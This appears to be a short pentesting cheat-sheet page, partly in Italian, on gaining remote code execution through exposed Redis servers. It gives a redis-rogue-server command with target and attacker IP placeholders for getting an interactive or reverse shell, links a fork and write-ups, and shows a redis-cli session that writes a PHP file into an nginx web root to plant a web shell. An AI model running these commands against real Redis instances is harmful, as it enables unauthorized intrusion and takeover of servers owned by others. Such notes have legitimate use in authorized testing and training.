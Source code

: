 ## Redis RCE

### REDIS-ROGUE-SERVER

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell

```

./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>

```

**ATTENZIONE**
La versione original non ha flag per l'autenticazione con password. Ho trovato questa versione cinese che ha di default la -v e altre flag impostabili:

- https://github.com/Dliv3/redis-rogue-server/blob/master/README_EN.md
- https://github.com/Dliv3/redis-rogue-server

Another great guide that explains the exploitation process more in depth
https://paper.seebug.org/977/

Original paper:
https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf



### Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

```

root@Urahara:~# redis-cli -h 10.85.0.52

10.85.0.52:6379> config set dir /usr/share/nginx/html

OK

10.85.0.52:6379> config set dbfilename redis.php

OK

10.85.0.52:6379> set test "<?php phpinfo(); ?>"

OK

10.85.0.52:6379> save

OK

```
